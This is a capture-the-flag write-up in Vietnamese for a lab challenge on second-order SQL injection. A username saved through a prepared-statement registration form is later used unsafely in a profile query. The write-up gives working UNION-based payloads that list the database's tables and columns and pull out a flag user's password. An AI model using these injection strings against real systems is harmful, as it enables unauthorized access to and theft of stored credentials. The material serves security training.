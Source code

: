 # SQL Injection 7  
## Thử thách về lỗi bảo mật SQL Injection
## Mục tiêu: Tìm secret trong database
# Phân tích
Có chức năng đăng nhập, đăng ký  
Web hỗ hộ trợ xem lại thôn tin email ki đăng ký.  
# Đọc code
Ở đây sử dụng Parameterized Queries/Prepared Statements.  
- Thực hiện truy vấn tham số hóa (Parameterized Queries/Prepared Statements): Các framework cung cấp cách sử dụng truy vấn tham số hóa để tách biệt giữa câu lệnh SQL và dữ liệu đầu vào. Điều này đảm bảo rằng dữ liệu người dùng sẽ không được xem là một phần của câu lệnh SQL, từ đó ngăn chặn SQL Injection.  
```
$sql = "SELECT username FROM users WHERE username=? and password=?";
$statement = $database->prepare($sql);
$statement->bind_param('ss', $_POST['username'], md5($_POST['password']));
$statement->execute();
$statement->store_result();
$statement->bind_result($result);
```
register:
```
} else {
    $sql = "INSERT INTO users(username, password, email) VALUES (?, ?, ?)";
    $statement = $database->prepare($sql);
    $statement->bind_param('sss', $_POST['username'], md5($_POST['password']), $_POST['email']);
    $statement->execute();
    $message = "Create successful";
```
login:  
<img src='./img/Screenshot 2025-08-03 at 23.36.50.png'>  
Có chức năng của `profile`:  
<img src='./img/Screenshot 2025-08-03 at 23.35.18.png'>  
- Ở dòng `17` login `$_SESSION["username"] = $result;` đây là kết quả từ câu query trước đó.
- `$_SESSION["username"]` lại được sử dung trong `profile`. dòng 9
-  dòng 12 profile: ở đây sử dụng lại `username` ở dòng 9 --> nếu thao túng được `username` để biến đổi câu sql ```SELECT email FROM users WHERE username='abc' UNION SELECT version() -- ' ```
- Thấy register ko có Validate gì cả .
# Khai thác
đăng ý 1 user/pass, với user là `abc' UNION SELECT version() -- `. --> đăng ký thành công. Khi nhấn check email.
<img src='./img/Screenshot 2025-08-03 at 23.47.55.png'>  
H tìm tất cả các `table_name`.  
Vì có 1 row nên sử dụng `GROUP_CONCAT(table_name)`, bị giới hạn user name nên ko where được `database()` hiện tại.  
```
a' UNION SELECT GROUP_CONCAT(table_name) FROM  information_schema.tables -- 
```
<img src='./img/Screenshot 2025-08-04 at 00.20.12.png'>   

Phát hiện ra có table có tên là `users`.  
Tìm các xem trong `user` có nhưng column gì:  
```
a'UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users';#
```
<img src='./img/Screenshot 2025-08-04 at 21.30.43.png'>  

- tìm thấy `id,username,password` 3 cột này.
- lấy hết các `username` xem có gì hay ko:
```
a'UNION SELECT GROUP_CONCAT(username) FROM users;#
```
<img src='./img/Screenshot 2025-08-04 at 21.43.24.png'>

- thấy có username là `CBJS_FLAG` xem password của user này có gì ko.  
```
a'UNION SELECT password FROM users WHERE username='CBJS_FLAG';#
```
<img src='./img/Screenshot 2025-08-04 at 21.52.51.png'>  
 
 Done
